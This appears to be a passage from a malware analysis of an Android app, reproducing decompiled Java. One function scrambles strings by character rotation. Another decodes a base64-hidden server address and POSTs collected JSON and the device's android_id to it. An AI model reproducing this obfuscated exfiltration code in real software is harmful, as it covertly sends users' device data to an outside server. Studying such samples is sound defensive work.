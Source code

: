 ```java
                if ('A' <= charAt && charAt < '[') {
                    i3 = (charAt - '9') % 26;
                    i = i3 + i2;
                }
            }
            if (Character.isUpperCase(charAt)) {
                i2 = 1040;
                if (1040 <= charAt && charAt < 1072) {
                    i3 = (charAt - 1032) % 32;
                    i = i3 + i2;
                }
            }
            if (Character.isDigit(charAt)) {
                i = ((charAt - '(') % 10) + 48;
            } else {
                sb.append(charAt);
            }
        } else {
            i = ((charAt - 1064) % 32) + 1072;
        }
        charAt = (char) i;
        sb.append(charAt);
    }
    String sb2 = sb.toString();
    AbstractC0641jk.u(sb2, "toString(...)");
    return sb2;
}
```

I noticed that this function will be triggered after some information is collected. This function looks like base64 encode the strings and character permutation. 

```java
public void d(JSONObject jSONObject, boolean z) {
    String concat;
    Xp xp = new Xp();
    if (z) {
        byte[] decode = Base64.decode("aHR0cHM6Ly93ZWVkb29tLm5ldA==", 0);
        AbstractC0641jk.s(decode);
        concat = new String(decode, AbstractC0755m7.a).concat("/minit");
    } else {
        byte[] decode2 = Base64.decode("aHR0cHM6Ly93ZWVkb29tLm5ldA==", 0);
        AbstractC0641jk.s(decode2);
        concat = new String(decode2, AbstractC0755m7.a).concat("/multipush");
    }
    try {
        Gl gl = new Gl();
        gl.m(concat);
        Pattern pattern = Vn.c;
        Vn z2 = AbstractC0597ik.z("application/json; charset=utf-8");
        String jSONObject2 = jSONObject.toString();
        AbstractC0641jk.u(jSONObject2, "toString(...)");
        gl.l("POST", AbstractC0597ik.s(z2, jSONObject2));
        byte[] decode3 = Base64.decode("QmV0YQ==", 0);
        AbstractC0641jk.s(decode3);
        String b = b(new String(decode3, AbstractC0755m7.a));
        C0236ai c0236ai = (C0236ai) gl.c;
        c0236ai.getClass();
        AbstractC0737lq.o("auth");
        AbstractC0737lq.t(b, "auth");
        c0236ai.a("auth", b);
        String string = Settings.Secure.getString(this.a.getContentResolver(), "android_id");
        AbstractC0641jk.u(string, "getString(...)");
        String b2 = b(string);
```